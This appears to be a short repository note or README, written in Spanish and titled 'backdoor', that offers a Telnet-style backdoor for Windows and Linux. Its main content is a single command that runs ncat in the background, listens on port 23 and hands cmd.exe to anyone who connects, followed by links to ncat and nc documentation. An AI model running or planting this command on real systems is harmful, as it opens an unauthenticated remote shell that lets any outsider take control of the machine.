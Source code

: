 ## backdoor

Activa puerta trasera TelnetD para Windows y Linux

start /B ncat -l -t -p 23 -e cmd.exe 

https://nmap.org/ncat/

https://ss64.com/bash/nc.html

